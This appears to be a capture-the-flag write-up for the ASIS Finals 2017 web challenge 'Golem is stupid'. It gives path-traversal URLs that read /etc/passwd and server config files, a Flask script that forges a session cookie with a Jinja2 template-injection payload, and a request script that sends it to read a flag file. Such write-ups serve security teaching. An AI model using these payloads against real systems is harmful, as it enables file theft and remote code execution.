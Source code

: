 # ASIS-FINALS-2017
Task name : Golem is stupid <br>
Category : Web <br>

Description :  Golem is an animated anthropomorphic being that is magically created entirely from inanimate matter, but Golem is stupid! <br>
<br>

tldr ; SSTI to get RCE in flask session token <br>

Challenge : <br>
first could find obvious LFI  https://golem.asisctf.com/article?name=../../../etc/passwd  and leak etc/passwd <br>
Trying leak other files gave us important infos : https://golem.asisctf.com/article?name=../../../../proc/self/cmdline <br>

https://golem.asisctf.com/article?name=../../../../../../etc/uwsgi/apps-enabled/golem_proj.ini was showing main script path file <br>

leaking that we can see that all parameters are kind of sanitized except token, which was then printed , looks like server side template injection<br>
All I had to do is create local flask app, forge my token using the key which was in the python file with payload, and send it to the application<br><br>

Payload : <br>
```
from flask import Flask, session

app = Flask(__name__)

@app.route('/')
def run():
    session['golem'] = '{{ \'\'.__class__.__mro__[2].__subclasses__()[40](\'/opt/serverPython/golem/flag.py\').read() }}'
    return 'ok'
    

if __name__ == '__main__':
    app.secret_key = '7h15_5h0uld_b3_r34lly_53cur3d'
    app.run(host='127.0.0.1', port=2222, debug=True)```
    
<br>
and the exploit : <br>

```import requests

cookies={'session':'.eJwlyU0LgjAYAOC_Eu-5w9SCNugUOJl6iGgub21-QG4Z6Aab-N8zuj7PAv2oWwNkgZ0EAm0y9cwrKyL8kjQNKsJdoXEnBXObyVKj34WmYv-PeRDRacz5hMoUjcxjp7Kr29w3hvt7ptGTYlvEjZOUz0VcT49KWZUN7_x29HWVDvll6DuBzrDuYTYfIIdk_QL3ADJC.DJSUXQ.0_cgqMpbS89-sLEX2HaJRslq73I'}


r=requests.post('https://golem.asisctf.com/golem',cookies=cookies)

print r.text```
<br>
Response contained flag : ASIS{I_L0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}
